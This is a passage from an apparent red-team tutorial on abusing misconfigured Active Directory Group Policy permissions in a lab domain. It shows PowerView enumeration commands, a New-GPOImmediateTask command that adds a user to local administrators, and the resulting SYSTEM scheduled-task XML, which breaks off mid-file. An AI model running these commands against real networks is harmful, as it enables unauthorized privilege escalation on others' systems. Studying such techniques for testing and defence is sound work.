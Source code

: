 ```csharp
Get-DomainGPO -ComputerIdentity ws01 -Properties Name, DisplayName
```

![](../../.gitbook/assets/screenshot-from-2019-01-16-19-44-19.png)

#### OUs with a Given Policy Applied

```csharp
Get-DomainOU -GPLink "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" -Properties DistinguishedName
```

![](../../.gitbook/assets/screenshot-from-2019-01-16-19-46-33.png)

#### Abusing Weak GPO Permissions

One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```csharp
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-43-46.png)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-40-11.png)

### Force Policy Update

ScheduledTask and its code will execute after the policy updates are pushed through \(roughly each 90 minutes\), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-45-18.png)

### Under the hood

If we observe the Scheduled Tasks of the `Misconfigured Policy` GPO, we can see our `evilTask` sitting there:

![](../../.gitbook/assets/screenshot-from-2018-12-20-12-02-22.png)

Below is the XML file that got created by `New-GPOImmediateTask` that represents our evil scheduled task in the GPO:

{% code title="\\\\offense.local\\SysVol\\offense.local\\Policies\\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\\Machine\\Preferences\\ScheduledTasks\\ScheduledTasks.xml" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<ScheduledTasks clsid="{CC63F200-7309-4ba0-B154-A71CD118DBCC}">
    <ImmediateTaskV2 clsid="{9756B581-76EC-4169-9AFC-0CA8D43ADB5F}" name="evilTask" image="0" changed="2018-11-20 13:43:43" uid="{6cc57eac-b758-4c52-825d-e21480bbb47f}" userContext="0" removePolicy="0">
        <Properties action="C" name="evilTask" runAs="NT AUTHORITY\System" logonType="S4U">
            <Task version="1.3">
                <RegistrationInfo>
                    <Author>NT AUTHORITY\System</Author>
                    <Description></Description>
                </RegistrationInfo>
                <Principals>
                    <Principal id="Author">
                        <UserId>NT AUTHORITY\System</UserId>
                        <RunLevel>HighestAvailable</RunLevel>
```